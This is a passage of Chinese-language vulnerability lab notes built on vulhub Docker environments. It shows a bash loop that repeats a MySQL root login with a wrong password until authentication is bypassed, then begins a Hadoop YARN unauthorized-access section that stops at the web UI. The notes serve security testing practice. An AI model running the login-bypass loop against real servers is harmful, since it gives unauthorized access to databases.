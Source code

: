 搭建：vulhub

```
docker-compose up -d
```

### 漏洞验证

在不知道我们环境正确密码的情况下，在bash下运行如下命令，在一定数量尝试后便可成功登录：

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h 192.168.1.103 -P3306 ; done
```

<img src="图片\Snipaste_2023-02-08_14-47-58.png" alt="Snipaste_2023-02-08_14-47-58" style="zoom:80%;" />

## Hadoop-未授权访问

内置配合命令执行RCE

测试环境 vulhub，  运行测试环境

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8088`即可看到Hadoop YARN ResourceManager WebUI页面

<img src="图片\Snipaste_2023-02-08_15-00-56.png" alt="Snipaste_2023-02-08_15-00-56" style="zoom:80%;" />
